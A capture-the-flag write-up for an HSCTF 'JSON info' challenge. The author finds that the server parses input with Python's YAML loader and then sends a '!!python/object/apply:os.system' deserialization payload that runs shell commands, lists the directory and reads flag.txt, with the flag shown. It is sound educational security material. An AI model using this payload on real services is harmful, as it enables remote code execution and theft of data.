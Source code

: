 We are given a challenge server `misc.hsctf.com:9999` which takes in input a json object. That's all we are given.
So, let's give it some random inputs and test it.
```
$ nc misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
{'test': 'test'}
You have entered: an object
The object has 1 members
Thank you for using JSON info!

$ nc misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
{\
There was an error: while parsing a flow mapping
  in "<stdin>", line 1, column 1
expected ',' or '}', but got '<stream end>'
  in "<stdin>", line 2, column 1
```
Ah, a python error :) ! Quick google search on the error provided shows that this is a yaml error.

So, yaml module of python. It has been proven long ago that python yaml load can be [exploited](https://www.cvedetails.com/cve/CVE-2017-18342/) for Remote Code Execution.
```
$ nc misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
{'test': !!python/object/apply:os.system ['ls .']}
bin
boot
dev
etc
flag.txt
home
json_info.py
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
You have entered: an object
The object has 1 members
Thank you for using JSON info!

$ nc misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
{'test': !!python/object/apply:os.system ['cat flag.txt']}
hsctf{JS0N_or_Y4ML}
You have entered: an object
The object has 1 members
Thank you for using JSON info!
```
